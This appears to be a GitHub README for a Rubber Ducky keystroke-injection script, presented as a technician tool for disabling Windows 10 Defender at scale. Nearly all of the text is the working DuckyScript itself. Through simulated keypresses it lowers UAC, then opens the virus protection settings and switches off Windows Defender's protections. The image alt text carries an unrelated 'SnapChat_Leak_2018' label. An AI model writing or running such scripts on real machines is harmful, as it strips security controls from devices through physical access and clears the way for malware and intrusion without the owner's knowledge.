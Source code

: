 # Rubber-Ducky_Disable_W10-Defender_Technician-Edition
a quickly script for Rubber Ducky to disable w10 defender on large scale

![Alt text](https://raw.githubusercontent.com/JonnyBanana/Rubber-Ducky_Disable_W10-Defender_Technician-Edition/master/img/main_win10.png "SnapChat_Leak_2018-by-Jonny-Banana")

DELAY 2000
REM  first disable UAC
CONTROL ESCAPE
DELAY 200
STRING uac 
DELAY 200
ENTER
DELAY 200
DOWNARROW
DELAY 200
DOWNARROW
DELAY 200
DOWNARROW
DELAY 200
TAB
DELAY 200
ENTER
DELAY 200
LEFT
DELAY 200
ENTER
DELAY 200
REM it's time to disable the fuckin' defender....
CONTROL ESCAPE
DELAY 200
STRING virus pro
DELAY 200
ENTER
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
ENTER
DELAY 200
SPACE
DELAY 200
TAB
DELAY 200
SPACE
DELAY 200
TAB
DELAY 200
TAB
DELAY 200
SPACE

